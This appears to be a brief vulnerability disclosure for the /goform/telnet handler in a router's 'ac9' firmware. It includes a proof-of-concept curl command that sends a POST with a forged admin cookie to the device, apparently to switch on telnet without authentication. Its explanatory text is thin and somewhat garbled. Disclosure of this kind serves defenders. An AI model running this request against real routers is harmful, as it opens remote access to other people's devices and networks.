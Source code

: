 | Firmware Name | Firmware Version          | Download Link |
| ------------- | ------------------------- | ------------- |
| ac9           | V1.0BR_V15.03.05.14_multi | none          |

## Analysis

![7bafb473eb0a2dc98d2a44fa608d91d](./assets/7bafb473eb0a2dc98d2a44fa608d91d.png)

An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

## POC

```
curl -i -X POST http://192.168.0.1/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![a97142785f9e38e439db922d95928c7](./assets/a97142785f9e38e439db922d95928c7.png)

![327b16e4d39f97e297f44d3a5df7267](./assets/327b16e4d39f97e297f44d3a5df7267.png)

